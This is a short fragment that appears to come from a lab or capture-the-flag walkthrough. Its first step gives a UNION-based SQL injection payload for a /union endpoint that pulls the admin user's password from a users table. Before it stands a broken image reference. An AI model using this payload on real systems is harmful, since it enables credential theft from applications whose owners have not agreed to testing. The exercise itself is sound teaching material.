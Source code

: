🧪 Step 1: SQLi Exfil in /union

Submit:

' UNION SELECT 1, password FROM users WHERE username='admin'--

✔️ This dumps the admin’s password — note it.